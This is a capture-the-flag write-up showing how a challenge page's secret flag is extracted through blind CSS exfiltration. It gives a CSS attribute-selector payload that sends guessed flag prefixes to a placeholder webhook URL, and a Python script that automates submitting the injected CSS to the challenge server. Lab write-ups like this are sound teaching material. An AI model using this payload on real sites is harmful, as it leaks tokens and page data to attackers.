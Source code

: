 

# 0x01

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <title>My Beautiful Site</title>
    <link
      href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.2/dist/css/bootstrap.min.css"
      rel="stylesheet"
      integrity="sha384-T3c6CoIi6uLrA9TneNEoa7RxnatzjcDSCmG1MXxSR1GAsXEV/Dwwykc2MPK8M2HN"
      crossorigin="anonymous"
    />
    <link href="/uploads/{{submit_id}}.css" rel="stylesheet" />
  </head>
  <body>
    <div class="container">
      <h1 id="title">Welcome to my beautiful site</h1>
      <p id="sub-header">
        Here is some content that I want to share with you. An example can be
        this flag:
      </p>
      <input id="flag" value="{{ flag }}" />
    </div>
    <div class="container mt-4">
      <form action="/judge/{{submit_id}}" method="post">
        <input type="submit" value="Submit for judging">
      </form>
    </div>
    <script
      src="https://cdn.jsdelivr.net/npm/bootstrap@5.3.2/dist/js/bootstrap.bundle.min.js"
      integrity="sha384-C6RzsynM9kWDrMNeT87bh95OGNyZPhcTNXj1NW7RuBCsyN/o0jlpcV8Qyq46cDfL"
      crossorigin="anonymous"
    ></script>
  </body>
</html>
```

We can see that we are to craft our own CSS, which will be submitted for judging. Therefore, we are able to use `Blind CSS Exfiltration` vulnerability for this challenge (https://portswigger.net/research/blind-css-exfiltration) to get the flag

# 0x02

Firstly we need setup a Webhook, and the payload we will be using: 

```css
input[id=flag][value^='grey{... ']{
	background-image: url(<webhook-url>?flag=grey{ ...);
	color: red;
	}
```

By doing such, when the `value ^= 'grey{... '` is a valid CSS property value, it will trigger a request with the value of the flag `grey{... `, and we are able to receive the flag by accessing the Webhook.

## 0x03

Secondly, we need to write a python script:

```python
import requests
from bs4 import BeautifulSoup

url = "http://challs.nusgreyhats.org:33339/"


def submit(content):
    # css injection
    data = {"css_value" : "input[id=flag][value^='" + content + "']{background-image: url(<webhook site>?flag=" + content + ");color: red;}"}
    print("Payload:", data["css_value"])
    # sending data to "/submit"
    request = requests.post(url=url + "/submit", data=data)
    print("Url: ",url)
    # filter out judgeLink
    soup = BeautifulSoup(request.text, "html.parser")
    form = soup.find("form")
    judgeLink = form.get("action")
    return judgeLink


def judge(flagTest):
      newUrl = url + flagTest
      request2 = requests.post(newUrl)       
      

if __name__ == "__main__":
    words = '1234567890ABCDEFGHIJKLMNOPQRSTUVWXYZf}'
    flag = 'grey{'
    for i in words:
        flagTest = flag + i
        judgeLink = submit(flagTest)
        print("judgeLink:", judgeLink)
        judge(judgeLink)
        print("---------------------------------------------------------")

```

By running it once, we checked the Webhook and discovered the Webhook recieved a get request and the 'flag' parameter has a value of "grey{X". This means that the first part of the flag is "grey{X"

We need to changing and updating the flag value:

```python
if __name__ == "__main__":
    words = '1234567890ABCDEFGHIJKLMNOPQRSTUVWXYZf}'
    flag = 'grey{X' # updating the flag value
    for i in words:
        flagTest = flag + i
        judgeLink = submit(flagTest)
        print("judgeLink:", judgeLink)
        judge(judgeLink)
        print("---------------------------------------------------------")
```

By repeating the whole process mutiple times, we are able to get the flag `grey{X5S34RCH1fY0UC4NF1ND1T}` (We will eventually stop when the flag has a closing bracket as the format of the flag is `grey{...}`)

